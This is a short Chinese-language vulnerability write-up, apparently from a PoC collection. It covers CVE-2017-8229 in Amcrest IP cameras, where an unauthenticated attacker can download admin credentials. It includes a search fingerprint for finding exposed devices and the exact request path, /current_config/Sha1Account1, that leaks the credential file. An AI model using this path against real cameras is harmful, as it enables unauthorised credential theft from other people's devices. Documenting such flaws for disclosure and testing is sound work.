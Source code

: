 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

<a-checkbox checked>Amcrest Technologies. Amcrest IP Camera Web all</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Amcrest"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645547044365-31c4c6ae-c9cd-4c34-88ce-1c31810a0ed8.png)

验证POC

```javascript
/current_config/Sha1Account1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645547183330-ef08c3d4-1cb6-4e93-a70f-8ec772da2798.png)